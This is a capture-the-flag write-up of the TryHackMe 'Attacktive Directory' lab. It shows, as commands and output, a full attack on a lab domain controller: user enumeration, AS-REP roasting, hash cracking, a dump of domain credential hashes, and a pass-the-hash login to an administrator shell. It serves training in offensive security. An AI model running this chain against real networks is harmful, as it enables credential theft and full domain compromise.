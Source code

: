 ```yaml
---
title: Attacktive Directory – Writeup
---
```


_**Jan 09, 2021**_

[Attacktive Directory](https://tryhackme.com/room/attacktivedirectory) Writeup

### Description :

99% of Corporate networks run off Active Directory. From this machine you will have a basic understanding on how to exploit such an environment.

Learning Objectives :

* AD Enumeration
* Kerberos
* Cracking Hashes
* Impacket
* ASREPRoasting


## Recon :

```sh
bvr0n@kali:~$ nmap -sC -sV 10.10.193.34
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-12 06:56 EST
Nmap scan report for 10.10.193.34
Host is up (0.091s latency).
Not shown: 990 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-11-12 11:56:26Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-11-12T11:58:44+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2020-09-16T22:48:24
|_Not valid after:  2021-03-18T22:48:24
|_ssl-date: 2020-11-12T11:58:59+00:00; +2s from scanner time.
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2s, deviation: 0s, median: 1s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-11-12T11:58:49
|_  start_date: N/A
```
From this scan we discover the Domain Name of the machine as well as the the full AD domain.

For further enumeration we need to add domain name and add it to `/etc/hosts`

```sh
bvr0n@kali:~$ echo 10.10.193.34 spookysec.local >> /etc/hosts
```

```sh
root@kali:~# enum4linux -a spookysec.local
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Nov 12 15:15:56 2020

 ========================== 
|    Target Information    |
 ========================== 
Target ........... spookysec.local
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ======================================================= 
|    Enumerating Workgroup/Domain on spookysec.local    |
 ======================================================= 
[+] Got domain/workgroup name: THM-AD

 =============================================== 
|    Nbtstat Information for spookysec.local    |
 =============================================== 
Looking up status of 10.10.193.34
        ATTACKTIVEDIREC <00> -         B <ACTIVE>  Workstation Service
        THM-AD          <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        THM-AD          <1c> - <GROUP> B <ACTIVE>  Domain Controllers
        THM-AD          <1b> -         B <ACTIVE>  Domain Master Browser
        ATTACKTIVEDIREC <20> -         B <ACTIVE>  File Server Service

        MAC Address = 02-4D-80-A3-99-4E

 ======================================== 
|    Session Check on spookysec.local    |
 ======================================== 
[+] Server spookysec.local allows sessions using username '', password ''

 ============================================== 
|    Getting domain SID for spookysec.local    |
 ============================================== 
Domain Name: THM-AD
Domain Sid: S-1-5-21-3591857110-2884097990-301047963
[+] Host is part of a domain (not a workgroup)
```

## Kerberos Enumeration :

Kerbrute is a tool that performs Kerberos pre-auth bruteforcing, in this case we will be using the username bruteforce feature.

```sh
bvr0n@kali:~/Kerbute$ ./kerbrute_linux_amd64 userenum -d spookysec.local  --dc spookysec.local ~/CTF/THM/AttacktiveDirect/userlist.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 11/12/20 - Ronnie Flathers @ropnop

2020/11/12 07:59:40 >  Using KDC(s):
2020/11/12 07:59:40 >   spookysec.local:88

2020/11/12 07:59:41 >  [+] VALID USERNAME:       james@spookysec.local
2020/11/12 07:59:43 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2020/11/12 07:59:45 >  [+] VALID USERNAME:       James@spookysec.local
2020/11/12 07:59:46 >  [+] VALID USERNAME:       robin@spookysec.local
2020/11/12 07:59:54 >  [+] VALID USERNAME:       darkstar@spookysec.local
2020/11/12 08:00:00 >  [+] VALID USERNAME:       administrator@spookysec.local
2020/11/12 08:00:10 >  [+] VALID USERNAME:       backup@spookysec.local
2020/11/12 08:00:16 >  [+] VALID USERNAME:       paradox@spookysec.local
2020/11/12 08:00:46 >  [+] VALID USERNAME:       JAMES@spookysec.local
2020/11/12 08:00:56 >  [+] VALID USERNAME:       Robin@spookysec.local
2020/11/12 08:01:59 >  [+] VALID USERNAME:       Administrator@spookysec.local
2020/11/12 08:04:12 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2020/11/12 08:04:55 >  [+] VALID USERNAME:       Paradox@spookysec.local
2020/11/12 08:07:53 >  [+] VALID USERNAME:       ori@spookysec.local
2020/11/12 08:09:07 >  [+] VALID USERNAME:       ROBIN@spookysec.local
```
### ASREPRoasting :

Now that we have discovered a several usernames we can use a technique called ASREPRoasting, meaning if a user does not have the Kerberos preauthentication property selected it is possible to retrieve the password hash from that user. 
Impacket provides a tool called GetNPUsers.py which can query the AD and if the property above is not selective it will export their TGT.

```sh
bvr0n@kali:/opt/impacket/examples$ python3 GetNPUsers.py spookysec.local/svc-admin -no-pass
Impacket v0.9.22.dev1+20201105.154342.d7ed8dba - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:a9ba7723b142129ccf7d864d21ad5804$2e43b826b31c08cc1bc3633b7d916dbaacf5c6dec0bfbb097e4955bd8d225906367c230dcdf5e68a84ff0f4d473c87d4a1d7b552631a33b4e6a995a58d88239911cf23961bc3a5f5b756d0dfbfec4936ad7f2df721ed007279aaf5e6536b6076799eb906d76331830cbd0ecfcfe17d30cdde4d16ec032d590f53379b12700fb6e9cf56b493856f342b43400f11d63c2d6915c5baf81d2cfb0b75aa106e33f73a85c28ef8ca4b55dc4efdf817c9ec8097e92e84460179ba90a5a771314a13e781daf2b3d6457bb595ebc8000b20c2c845f6efe97ba57c168cee57ccd883cf6eeae0d2ec731b4d48d0573f86abffd760e5b5b0
```
Since we were able to get the svc-admin hash, Let's decrypt it now :

```sh
bvr0n@kali:~/CTF/THM/AttacktiveDirect$ sudo john hash-svc-admin --wordlist=/home/bvr0n/Documents/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
management****   ($krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL)
```

## SMB Recon :

Since we have user credentials we can attempt to log into SMB and explore any shares from the domain controller.

```sh
bvr0n@kali:~/Kerbute$ smbclient -U svc-admin -L 10.10.193.34 
Enter WORKGROUP\svc-admin's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```
Enumerating the shares, one had some credentials inside :

```sh
bvr0n@kali:~/Kerbute$ smbclient -U svc-admin //10.10.193.34/backup
Enter WORKGROUP\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020
```
The file content is `base64` encoded, we can decoded simply like this :

```sh
bvr0n@kali:~/CTF/THM/AttacktiveDirect$ strings backup_credentials.txt | base64 -d
backup@spookysec.local:******2517860
```
Using the backup account we can use another tool from Impacket this time called `secretsdump.py`, we will be able to get all the password hashes that this user account has access to.

```sh
bvr0n@kali:~/CTF/THM/AttacktiveDirect$ python3 /opt/impacket/examples/secretsdump.py -just-dc backup@spookysec.local
Impacket v0.9.22.dev1+20201105.154342.d7ed8dba - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:********************7260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
```
Now we are in possession of the Administrator password hash. The next step will be performing a `Pass the Hash Attack`. 

```sh
bvr0n@kali:~/CTF/THM/AttacktiveDirect$ evil-winrm -i 10.10.193.34 -u Administrator -H ********************7260b0bcb4fc

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator> whoami
thm-ad\administrator
```
##### Congratulations, you now have complete access to the system. Hope you enjoyed this guide. :)


